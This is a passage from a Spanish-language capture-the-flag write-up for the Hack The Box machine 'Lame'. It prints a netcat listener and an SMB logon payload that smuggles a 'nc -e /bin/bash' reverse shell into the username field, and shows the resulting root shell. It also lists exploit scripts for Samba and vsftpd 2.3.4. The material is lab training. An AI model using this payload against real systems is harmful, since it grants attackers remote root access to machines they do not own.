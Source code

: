Por tanto nos podenos en escucha en el puerto 443 y nos mandamos una reverse shell

> sudo nc -nlvp 443

```console
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 57921
whoami
root
```


> smb: \> logon "/=`nohup nc -e /bin/bash 10.10.14.4 443`"
> Password: 

```console
session setup failed: NT_STATUS_IO_TIMEOUT
```

viendo que somos root ya se puede ver los archivos user.txt y root.txt


## Estructura del directorio

```
Lame
├── content
├── exploits
│   ├── sm_exploit.rb
│   └── vsftpd_2.3.4.py
├── Images
├── nmap
│   ├── allPorts
│   └── targeted
├── Readme.md
└── scripts
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>